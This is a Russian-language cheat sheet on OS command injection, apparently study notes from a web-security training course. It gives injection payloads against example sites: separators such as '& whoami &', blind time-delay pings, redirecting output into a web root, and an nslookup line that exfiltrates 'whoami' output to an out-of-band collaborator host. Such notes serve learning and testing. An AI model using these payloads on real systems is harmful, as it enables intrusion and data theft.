

[OS command injection](https://portswigger.net/web-security/os-command-injection)

Unix binaries: [GTOFBins](https://gtfobins.github.io/)
Windows binaries: [LOLBAS](https://lolbas-project.github.io/)

# Выполнение произвольных команд

Запрос:

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

Команда:

```
stockreport.pl 381 29
```

Инъекция (можно закодировать в URL)

```
& whoami &
```

Команда примет вид:

```
stockreport.pl & whoami & 29
```

# Полезные команды

# Слепая инъекция команд
На примере отправки отзыва о сайте:

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

### Временная задержка

```
; ping -c 10 127.0.0.1 ;
```

### Перенаправления вывода

Например, если приложение обслуживает статические ресурсы из файловой системы /var/www/static, то можно:

```
; whoami > /var/www/static/whoami.txt ;
```

### Использование out-of-band (OAST) методов

```
; nslookup h0ipdd0o7ubzva6ghoq96993buhl5a.burpcollaborator.net ;
```

Эксфильтрация `whoami` (%60 == &#0096;):

```
; nslookup %60whoami%60.o1qp1jygitgcuf3cj8xz5zi3jupkd9.burpcollaborator.net ;
```

# Способы инъекции
Следующие разделители работают на Windows и Unix-based системах:

```
&
&& 
|
||
```

Следующие разделители работают только на Unix-based системах:

```
;
newline (0x0a или \n)
```

Как работают разделители:

```
cmd1; cmd2 - cmd2 выполняется в любом случае
cmd1 && cmd2 - cmd2 выполняется, если cmd1 успешно выполняется
cmd1 || cmd2 - cmd2 выполняется, если cmd1 возвращает ошибку
```

В Unix-based системах также можно использовать &#0096; (бэктики) или $:

```
` injected command `
$( injected command )
```
